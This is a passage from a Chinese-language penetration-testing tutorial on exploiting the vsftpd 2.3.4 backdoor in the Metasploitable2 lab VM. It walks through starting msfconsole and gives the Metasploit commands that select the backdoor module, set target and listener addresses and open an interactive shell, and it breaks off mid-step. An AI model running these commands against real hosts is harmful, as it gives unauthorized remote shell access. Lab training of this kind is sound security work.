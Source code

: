 ## 准备工作

我们将在这个模块中使用 Metasploit；确保在初始化 Metasploit 之前启动 PostgreSQL。我们将快速回顾一下我们在执行漏洞扫描时在 Metasploitable2 中发现的漏洞：

### 注意

IP 不同，因为作者已经更改了内部网络的 VLAN。

漏洞扫描输出将如下所示：

![准备工作](img/image_04_028.jpg)

这个教程的先决条件是要知道你的 IP 地址，因为它将用于在 Metasploit 中设置 Lhost。让我们从这里选取一些漏洞，以了解易受攻击服务的利用是如何发生的。

## 如何做...

1.  启动 PostgreSQL，然后启动`msfconsole`：

```
          service postgresql start
          msfconsole

    ```

输出将如下截图所示：

![如何做...](img/image_04_029.jpg)

1.  我们将利用`vsftpd`漏洞。在运行`msfconsole`的终端中输入以下内容：

```
          search vsftpd
          use exploit/unix/ftp/vsftpd_234_backdoor
          set rhost <Target IP Address>
          set payload cmd/unix/interact
          set lhost <Your IP Address>
          exploit

